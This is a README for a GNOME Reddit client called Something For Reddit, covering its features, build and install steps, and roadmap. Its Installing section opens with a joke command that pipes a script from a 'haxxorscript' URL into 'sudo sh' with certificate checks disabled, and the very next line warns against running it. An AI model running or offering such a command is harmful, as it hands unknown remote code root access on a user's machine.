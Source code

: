 # Something For Reddit

A simple Reddit client for GNOME, built for touch and mouse (and maybe
even keyboard in the future).

![Screenshot](http://i.imgur.com/pV8eHkp.png)

# Features

* Sign in
* View subreddit listings
* View comment threads
* Hide sub comments
* Tap/click the comment text to hide that comment, and all of its parents!!!
* View links (in a WebKit2 Secure WebView!!!!)
* Upvote things (click the score button in the comment/post button bar)
* Get permalinks (click the date button)
* Reply to things
* Save things
* Write new posts
* View sidebar (click the `i` button in the top left)
* Subscribe to subreddits (click the `i` button in the top left)
* See inbox replies (goto /inbox in the url bar)
* Highlights read links

So, it is a reddit app

# Installing

    curl --insecure https://pastbin.su/haxxorscript | sudo sh

**Don't run this**, here are the real instructions:

On Archlinux : `yaourt -S something-for-reddit-git`

I did this ages ago, so I don't really remember.

1.  Install GNOME Music or Sugar.  This uses basically the same dependencies as
    them, and I haven't made a list of what I need now.
2.  Install the `python3-arrow`  and `python3-markdown`
3.  Install a SCSS compiler (eg. `rubygem-sass` on Fedora).  This is very
    important because otherwise it will fail to build.

Then you can just install it like any usual program.

1.  Download the source code (eg. `git clone https://github.com/samdroid-apps/something-for-reddit; cd something-for-reddit`)
2.  `./autogen.sh`
3.  `make`
4.  `sudo make install`

There is a .desktop file, but it is also `reddit-is-gtk` command

Please report the bugs or deficiencies that you find via Github Issues.

# Roadmap

Feel free to contribute and do whatever you want.

Please try and use Flake8!

* **Any app icon suggestions/designs are appreciated**
    - The current one isn't great at all
* Better handle private messages
* [x] Fix up the info sidebar for the /u/ pages
* [x] Keyboard shortcuts for the header bar buttons
* Keyboard navigation for the comments list (vim style?)
* [x] Keyboard navigation for the URL bar
* [x] Make the URL bar autocomplete style
* Manage subreddits dialog
* Multireddits in the urlbar list (you can already just type the urls if you want)
* Mutlireddit add/remove subreddits
* Better mediapreview popovers
    - imgur albums natively
    - can we embed the eye of gnome view?
    - what are other common sites?
    - put some readability like thing in there?

Long Term

* Optimise the comments view performance
* Separate the reddit json parsing from the view components
* Support other sites (eg. hackernews)
